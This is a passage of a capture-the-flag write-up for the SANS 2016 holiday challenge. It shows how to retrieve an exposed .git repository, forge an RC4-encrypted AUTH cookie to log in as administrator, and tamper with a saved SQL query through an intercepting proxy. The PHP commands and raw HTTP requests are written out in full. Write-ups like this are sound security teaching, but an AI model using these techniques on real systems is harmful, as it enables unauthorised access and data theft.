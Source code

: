 ```
...
```

Going to [https://analytics.northpolewonderland.com/.git/](https://analytics.northpolewonderland.com/.git/) confirms that we can indeed browse the Git repository files. Let's retrieve them using [HTTrack](https://www.httrack.com/). Once we have the files we use Git to restore the original sources using ```git reset --hard```.

The source PHP files contain a wealth of information about the site - encryption logic, SQL queries, database schema, and so on. It also shows that the MP3 files are stored in a separate database table - we were only able to retrieve one of them, but there may be others.

Let's try to log in as ```administrator```, as the code analysis reveals that this user has the functionality that we need. Namely, ability to modify queries.

It looks like the cookie ```AUTH``` contains authentication session and the user name, and we can change its value to log in as ```administrator```.

Decoding:

```
root@kali:/sans# php -a
Interactive mode enabled

php > print mcrypt_decrypt(MCRYPT_ARCFOUR, 
"\x61\x17\xa4\x95\xbf\x3d\xd7\xcd\x2e\x0d\x8b\xcb\x9f\x79\xe1\xdc", 
pack("H*","82532b2136348aaa1fa7dd2243da1cc9fb13037c49259e5ed70768d4e9baa1c80b97fee8bca72880fc78be7cc4980953b14348637bec"), 'stream');

{"username":"guest","date":"2016-12-27T04:54:28+0000"}
```

Encoding:

```
php > print bin2hex(mcrypt_encrypt(MCRYPT_ARCFOUR, 
"\x61\x17\xa4\x95\xbf\x3d\xd7\xcd\x2e\x0d\x8b\xcb\x9f\x79\xe1\xdc", 
'{"username":"administrator","date":"2016-12-27T04:54:28+0000"}', 'stream'));

82532b2136348aaa1fa7dd2243dc0dc1e10948231f339e5edd5770daf9eef18a4384f6e7bca04d86e573b965cc9d6548b5494d6763a30b63b71976884152
```

We use an intercepting proxy to set the new cookie value and we are then logged in as ```administrator```. Note the new ```Edit``` command in the menu (but the ```MP3``` command is gone):

![admin1]({{ site.baseurl }}/images/sans2016/admin1.png)

Now let's try to retrieve the saved MP3. The site allows saving of queries. We start by saving an arbitrary query and recording its ID. Then we can use newfound Edit functionality to *modify* that query to be something else. 

We can do that in an intercepting proxy:

```
GET /edit.php?id=6df741a8-c1b7-42ea-bd51-97ba7afa4d94&name=d&description=d
&query=select * from audio HTTP/1.1
Host: analytics.northpolewonderland.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: https://analytics.northpolewonderland.com/edit.php
Cookie: AUTH=82532b2136348aaa1fa7dd2243dc0dc1e10948231f339e5edd5770daf9eef18a4384f6e7bca04d86e573b965cc9d6548b5494d6763a30b63b71976884152
Connection: keep-alive
```
